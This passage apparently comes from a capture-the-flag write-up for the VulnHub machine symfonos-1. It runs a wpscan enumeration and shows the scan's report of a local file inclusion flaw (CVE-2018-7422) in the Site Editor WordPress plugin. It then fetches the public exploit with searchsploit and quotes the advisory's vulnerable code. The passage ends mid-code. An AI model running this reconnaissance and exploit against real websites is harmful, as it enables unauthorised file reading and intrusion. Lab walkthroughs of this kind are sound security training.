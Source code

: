 
We key in this into the address bar after the ip address and we will be served into this crappy website. 


![c79312de05cb18973f9e4eab8bb22fa8.png](/images/vulnhub/symfonos-1/56fbcbff3daf45f9812a74ed6f22c139.png)

So its actually a wordpress site. Next we going to use wpscan to enumerate this site. The attacking surface for wordpress is actually the plugin. The core wordpress is one of target but usually plugin always occur to contain interesting bugs where some of it installed, unused and left not updated. 

fire up the wpscan using this command `wpscan -u http://symfonos.local/h3l105 --enumerate p -o wpscan/enumerate-plugin`

From this, we can recognize the Local File Inclusion vulnerability. 

```bash
[+] site-editor
 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt
```


![96548f509f044a72fd5bfb8707f713cd.png](/images/vulnhub/symfonos-1/a78471f69c68476b8d9f3266fc7fb593.png)

## Gaining initial foothold

On the searchsploit, we can get the simple POC for this which is 
44340. Simply execute `searchsploit -m 44340` will mirror the exploit on current directory. 

```text
Product: Site Editor Wordpress Plugin - https://wordpress.org/plugins/site-edit
or/                                                                            
Vendor: Site Editor                                                            
Tested version: 1.1.1                                                          
CVE ID: CVE-2018-7422                                                          
                                                                               
** CVE description **                                                          
A Local File Inclusion vulnerability in the Site Editor plugin through 1.1.1 fo
r WordPress allows remote attackers to retrieve arbitrary files via the ajax_pa
th parameter to editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.p
hp.                                                                            
              
** Technical details **                                                        
In site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.ph
p:5, the value of the ajax_path parameter is used for including a file with PHP
’s require_once(). This parameter can be controlled by an attacker and is not p
roperly sanitized.                                                             

Vulnerable code:                                                               
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && fil
```